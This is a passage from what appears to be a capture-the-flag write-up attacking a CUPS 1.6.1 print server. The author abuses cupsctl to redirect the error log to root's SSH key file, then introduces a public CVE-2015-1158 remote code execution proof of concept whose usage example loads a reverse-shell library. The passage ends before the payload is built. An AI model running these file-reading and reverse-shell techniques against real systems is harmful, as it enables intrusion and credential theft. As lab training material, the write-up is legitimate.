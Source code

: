 To run all of `rockyou.txt` will take over 8 hours, and it won’t find the password.

I’ll also check to see if there’s an SSH key in `/root/.ssh/id_rsa`, but the file doesn’t exist:

```

lp@antique:/dev/shm$ cupsctl ErrorLog=/root/.ssh/id_rsa
lp@antique:/dev/shm$ curl 127.0.0.1:631/admin/log/error_log?
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
        <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
        <TITLE>Not Found - CUPS v1.6.1</TITLE>
        <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
</HEAD>
<BODY>
<H1>Not Found</H1>
<P></P>
</BODY>
</HTML>

```

I will get a shell an unintended way in [Beyond Root](#pwnkit).

## Beyond Root

### CVE-2015-1158

In Googling for CUPS vulnerabilities, I’ll come across CVE-2015-1158, which is remote code execution in CUPS < 2.0.3, which could very well include 1.6.1.

[This script](https://github.com/0x00string/oldays/blob/master/CVE-2015-1158.py) is a POC, so I’ll give it a try.

Downloading it, it’s a Python2 script, and it takes a host, a port, and a library to run:

```

oxdf@hacky$ python2 cve-2015-1158.py             ...[snip]...
python script.py <args>
   -h, --help:             Show this message
   -a, --rhost:            Target IP address
   -b, --rport:            Target IPP service port
   -c, --lib               /path/to/payload.so
   -f, --stomp-only        Only stomp the ACL (no postex)

Examples:
python script.py -a 10.10.10.10 -b 631 -f
python script.py -a 10.10.10.10 -b 631 -c /tmp/x86reverseshell.so

```

I’ll create a simple `.so` file:

